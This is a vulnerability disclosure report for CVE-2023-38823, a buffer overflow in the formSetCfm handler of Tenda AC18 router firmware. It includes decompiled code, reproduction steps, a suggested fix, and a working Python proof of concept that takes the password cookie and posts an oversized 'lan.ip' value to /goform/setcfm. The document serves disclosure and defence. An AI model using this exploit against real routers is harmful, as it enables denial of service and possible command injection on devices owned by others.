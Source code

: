 # Buffer Overflow in formSetCfm

## 1. Affected model(s) and firmware/software version(s)

Product: AC18

Version: V15.03.05.19(6318)

Downloaded from: https://www.tenda.com.cn/download/detail-2683.html

Binary: `/bin/httpd`

## 2. Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## 3. Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## 4. Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```

![](images/CVE-2023-38823.gif)

## 5. Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## 6. Severity (e.g. CVSS v3.x)

DOS, Command injection

## 7. Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## 8. Assigned CVE

CVE-2023-38823